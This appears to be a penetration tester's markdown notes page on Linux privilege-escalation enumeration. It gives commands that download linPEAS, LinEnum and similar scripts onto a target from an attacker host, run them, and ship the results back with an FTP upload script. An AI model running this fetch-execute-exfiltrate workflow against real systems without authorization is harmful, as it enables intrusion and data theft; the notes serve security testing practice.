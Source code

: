 ```yaml
---
category: Uncategorized
tags: []
---
```

linPEAS.sh
LineEnum.sh
linux-exploit-suggester.sh 
linuxprivchecker.py 


#### Download to Kali

```bash - kali
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh && wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh && wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh && wget https://raw.githubusercontent.com/sleventyeleven/linuxprivchecker/master/linuxprivchecker.py && wget https://raw.githubusercontent.com/etc5had0w/suider/main/suider.sh && wget https://raw.githubusercontent.com/Anon-Exploiter/SUID3NUM/master/suid3num.py

```

```bash - kali
echo $KALI
```

```bash - kali
mousepad AutoUpload.sh
```

#### AutoUpload.sh - ==REMEMBER TO CHANGE $KALI TO IP!==
```bash - kali
#!/bin/sh
HOST='$KALI'
USER='anonymous'
PASSWD='anonymous'


ftp -n $HOST <<END_SCRIPT
quote USER $USER
quote PASS $PASSWD
put LinEnum.txt*
put linpeas.txt
put linux-exploit-suggester.txt
put linuxprivchecker.txt
put suider.sh
put suid3num.txt
quit
END_SCRIPT
exit 0
```

![[TechLexicon/Penetration Testing/Reference/7._Tools/Python#Server]]

#### Transfer to target - bash - ==CHANGE $KALI TO IP!==
```bash - target
mkdir /tmp/Tools && cd /tmp/Tools && wget http://$KALI:80/linpeas.sh && wget http://$KALI:80/LinEnum.sh && wget http://$KALI:80/linux-exploit-suggester.sh && wget http://$KALI:80/linuxprivchecker.py && wget http://$KALI:80/AutoUpload.sh && wget http://$KALI:80/suider.sh && wget http://$KALI:80/suid3num.py && chmod +x linpeas.sh && chmod +x LinEnum.sh && chmod +x linux-exploit-suggester.sh && chmod +x AutoUpload.sh && chmod +x suider.sh && chmod +x suid3num.py
```

#### Execute tools
```bash - target
./linpeas.sh -a > linpeas.txt & ./LinEnum.sh -t -r LinEnum.txt & ./linux-exploit-suggester.sh > linux-exploit-suggester.txt & python linuxprivchecker.py -w -o linuxprivchecker.txt & ./suider.sh > suider.txt & python suid3num.py > suid3num.txt
```

#### Start FTP server and upload results
```bash - kali
python -m pyftpdlib -p 21 --write
```

```bash - target
./AutoUpload.sh
```

[[3._Automated Tools]]

==Remember you can use [[gcc]] to locally compile if needed!==